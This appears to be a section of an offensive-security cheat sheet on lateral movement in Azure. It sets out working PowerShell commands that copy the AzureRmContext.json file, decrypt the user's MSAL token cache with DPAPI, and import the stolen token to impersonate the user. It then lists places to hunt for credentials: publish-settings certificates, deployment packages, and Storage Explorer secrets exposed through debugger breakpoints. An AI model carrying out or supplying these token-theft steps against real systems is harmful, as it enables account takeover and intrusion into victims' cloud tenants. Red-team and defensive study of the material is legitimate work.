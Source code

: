 # Lateral movement
## Stealing Azure tokens
- https://github.com/rvrsh3ll/TokenTactics
### User access tokens method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### User access tokens method 1
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

#### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

#### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.
